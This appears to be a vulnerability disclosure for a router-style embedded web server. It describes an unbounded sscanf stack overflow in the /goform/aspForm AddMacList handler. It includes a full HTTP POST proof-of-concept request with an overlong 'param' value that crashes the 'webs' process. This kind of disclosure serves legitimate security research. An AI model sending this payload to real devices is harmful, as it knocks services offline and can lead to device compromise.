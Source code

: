 ## Vulnerability

In route`/goform/aspForm`, the value of the key `CMD` is `AddMacList`, the program will go into the following handling function.

![image-20230610001456624](assets/image-20230610001456624.png)

First it get the value of the key `param`, then use `sscanf` to copy the the value of `param` to a array `v12` on the stack. The parameter `%s` of `sscanf` didn't limit the copy length.

![image-20230610001708200](assets/image-20230610001708200.png)

## PoC

```http
POST /goform/aspForm HTTP/1.1
Host: 192.168.124.1
Content-Length: 320
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://192.168.124.1
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/114.0.5735.91 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://192.168.124.1/wan_new.asp
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Cookie: PSWMOBILEFLAG=true; USERLOGINIDFLAG=; LOGIN_PSD_REM_FLAG=
Connection: close

CMD=AddMacList&param=aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa;;;;
```

## Result

the process `webs` restart

![image-20230610122745129](assets/image-20230610122745129.png)
